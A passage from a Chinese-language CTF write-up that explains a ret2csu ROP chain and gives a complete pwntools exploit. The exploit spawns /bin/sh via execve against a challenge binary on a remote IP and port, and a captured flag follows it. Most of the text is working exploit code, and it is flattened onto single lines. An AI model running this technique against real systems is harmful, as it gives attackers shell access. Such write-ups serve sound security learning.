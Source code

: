 ![5681bd32c7b770c1f36abb6ce7d33acf.png](img/889123dbd99eae06db29bc4df59e0908.png)

```
# payload构造如下，常规的通用gadget利用方式不细说了，点上文传送阵学习，这里提一个点，需要一点小窍门绕过去def csu(rbx, rbp, r12, r13, r14, r15, last):    # pop rbx,rbp,r12,r13,r14,r15    # rbx should be 0,    # rbp should be 1,enable not to jump    # r12 should be the function we want to call    # rdi=edi=r15d    # rsi=r14    # rdx=r13    payload = ''    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)    payload += p64(csu_front_addr)    payload += '/bin/sh\x00' + 'A' * 0x28    payload += p64(last)    return payload # 就是execve需要三个参数，而我们此时只能控制两个参数(常规通用gadget方式只能控制rdi、rsi、rdx三个寄存器，无法控制rcx)# 调用号 rdi=edi=r15d=59 call execve# 第一个参数rsi = r14 = 0x602120 (保存了/bin/sh)  # 第二个参数rdx = r13 = 0# !!我们这里需要控制第三个参数 rcx = 0 才能满足execve("/bin/sh", NULL, NULL)的条件# 解决办法就是在内存中找到一个地址是# xor rcx, rcx; ret; 构造变形一下通用gadget的利用方式 在调用execve前 使rcx为0syscall = 0x4017CCpayload = p64(syscall) + p64(csu_end_addr) + 'A' * 8payload += p64(xor_rcx_ret_addr) + p64(csu_end_addr)payload += csu(0, 1, 0x6020C0, 0, 0x602120, 59, main_addr)payload += 'A' * 8payload += p64(0x6020C8 - 0x18)
```

四、完整EXP

```
#coding:utf8#!python#!/usr/bin/env python from pwn import * context.terminal = ['gnome-terminal', '-x', 'sh', '-c']context.log_level = "debug" elfpath = '/mnt/hgfs/ShareDir/ctf/pwn1/pwn1'elf = ELF(elfpath)if len(sys.argv) == 0:    p = process(elfpath, env={'LD_PRELOAD':'/lib/x86_64-linux-gnu/libc.so.6'}, timeout=2)else:    p = remote('121.36.145.157', 9999) csu_front_addr = 0x401840csu_end_addr = 0x40185Amain_addr = 0x400AB6xor_rcx_ret_addr = 0x4017E3 # xor rcx, rcx; ret; def csu(rbx, rbp, r12, r13, r14, r15, last):    # pop rbx,rbp,r12,r13,r14,r15    # rbx should be 0,    # rbp should be 1,enable not to jump    # r12 should be the function we want to call    # rdi=edi=r15d    # rsi=r14    # rdx=r13     payload = ''    payload += p64(rbx) + p64(rbp) + p64(r12) + p64(r13) + p64(r14) + p64(r15)    payload += p64(csu_front_addr)    payload += '/bin/sh\x00' + 'A' * 0x28    payload += p64(last)    return payload syscall = 0x4017CCpayload = p64(syscall) + p64(csu_end_addr) + 'A' * 8payload += p64(xor_rcx_ret_addr) + p64(csu_end_addr)payload += csu(0, 1, 0x6020C0, 0, 0x602120, 59, main_addr) # call __NR_execve 59 (cat /usr/include/x86_64-linux-gnu/asm/unistd_64.h | grep execve)payload += 'A' * 8payload += p64(0x6020C8 - 0x18) # getshellp.send(payload)p.interactive()
```

flag：{b5f4e9d4325d16d55783f7ea1b1ed956}
